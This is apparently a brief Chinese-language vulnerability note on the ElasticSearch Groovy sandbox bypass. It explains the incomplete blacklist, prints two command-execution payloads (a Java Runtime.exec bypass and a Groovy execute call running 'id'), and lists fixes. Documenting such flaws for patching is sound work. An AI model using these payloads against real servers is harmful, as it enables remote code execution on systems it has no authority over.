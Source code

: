 # 一 漏洞描述
ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本,但由于沙盒代码黑名单中的Java危险方法不全,导致可以绕过沙盒来执行命令。

命令执行的方法有两种:

1.java沙盒绕过

java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()

2.Goovy直接执行命令

def command='id';def res=command.execute().text;res

### 二 漏洞利用
![img.png](img.png)

### 三 修复方式
1.关闭groovy沙盒以停止动态脚本的使用

2.升级elasticsearch版本
